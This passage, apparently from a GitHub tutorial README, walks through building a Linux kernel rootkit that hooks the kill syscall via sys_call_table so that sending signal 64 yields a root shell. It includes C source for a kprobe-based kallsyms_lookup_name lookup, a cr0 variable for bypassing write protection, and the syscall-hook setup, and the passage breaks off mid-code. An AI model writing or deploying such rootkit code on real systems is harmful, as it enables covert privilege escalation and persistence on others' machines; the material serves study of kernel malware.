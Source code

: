    line2 :&nbsp; `int sig = (int) pt_regs->si` => Stores the passed argument, in this case it is: `64`, [source](https://xcellerator.github.io/posts/linux_rootkits_03/) (Only the 1st portion before _Hooking kill_).

   Now, if the passed argument/ signal (or sig) is same as `GET_ROOT` (which is a macro defined) then we are gifted with a _rootshell_.

   #### Now the question comes, "Why _`si`_ register, why not _`rsi`_ register?"

   ***Ans***: Please follow the [commented lines](https://github.com/torvalds/linux/blob/15bc20c6af4ceee97a1f90b43c0e386643c071b4/arch/x86/include/asm/ptrace.h#L12).

   I have told you earlier that the function type of original syscall must be same as the created syscall.
```
                  static unsigned long *__sys_call_table;
                  
                  typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);
                  static tt_syscall orig_kill;
                  orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

                  and

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;
```
   If you compare all the lines, you will see each function types are satisfying other function types, i.e. there is no function type mismatch. Although, if it doesn't match, obviously compiler will through you an error. I just showed this portion to you, as I was dealing with this same problem while creating this project.

   6. So, the whole code to get the rootshell via `sys_kill interception`:
```c
                  // filename: Test_hook_kill.h

                  #include <linux/syscalls.h>     /* Needed to use syscall functions */
                  #include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */

                  #include <linux/kprobes.h>

                  // Setting which dynamic kernel symbol to find
                  static struct kprobe kp = {
                              .symbol_name = "kallsyms_lookup_name"
                  };

                  // https://xcellerator.github.io/posts/linux_rootkits_03/
                  #define GET_ROOT 64

                  /* For storing read cr0 control register value
                  *
                  * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                  *
                  * unsigned long (*read_cr0)(void);
                  */
                  unsigned long cr0;

                  // To store the address of the found sys_call_table
                  static unsigned long *__sys_call_table;

                  // Defining a custom function type to store original syscalls
                  typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

                  static tt_syscall orig_kill;
```